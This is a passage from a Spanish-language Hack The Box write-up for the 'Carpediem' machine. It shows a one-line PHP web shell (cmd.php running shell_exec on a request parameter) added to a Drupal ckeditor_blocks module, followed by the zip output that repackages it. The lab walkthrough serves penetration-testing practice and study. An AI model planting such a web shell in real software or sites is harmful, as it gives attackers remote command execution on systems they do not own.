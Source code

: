 <img src="/writeups/assets/img/Carpediem-htb/36.png" alt="">

Agrego un nuevo archivo PHP

```null
<?php
  shell_exec($_REQUEST['cmd']);
?>
```

Comprimo todo de nuevo

```null
zip -r ckeditor_blocks.zip ckeditor_blocks
  adding: ckeditor_blocks/ (stored 0%)
  adding: ckeditor_blocks/css/ (stored 0%)
  adding: ckeditor_blocks/css/ckeditor_blocks.css (deflated 63%)
  adding: ckeditor_blocks/cmd.php (stored 0%)
  adding: ckeditor_blocks/plugins/ (stored 0%)
  adding: ckeditor_blocks/plugins/blocks/ (stored 0%)
  adding: ckeditor_blocks/plugins/blocks/plugin.js (deflated 62%)
  adding: ckeditor_blocks/plugins/blocks/icons/ (stored 0%)
  adding: ckeditor_blocks/plugins/blocks/icons/blocks.png (deflated 6%)
  adding: ckeditor_blocks/plugins/blocks/lang/ (stored 0%)
  adding: ckeditor_blocks/plugins/blocks/lang/en.js (deflated 15%)
  adding: ckeditor_blocks/plugins/blocks/dialogs/ (stored 0%)
  adding: ckeditor_blocks/plugins/blocks/dialogs/blocks.js (deflated 57%)
  adding: ckeditor_blocks/ckeditor_blocks.module (deflated 70%)
  adding: ckeditor_blocks/ckeditor_blocks.info (deflated 31%)
  adding: ckeditor_blocks/README.md (deflated 44%)
  adding: ckeditor_blocks/LICENSE.txt (deflated 62%)
  adding: ckeditor_blocks/ckeditor_blocks.api.php (deflated 49%)
```
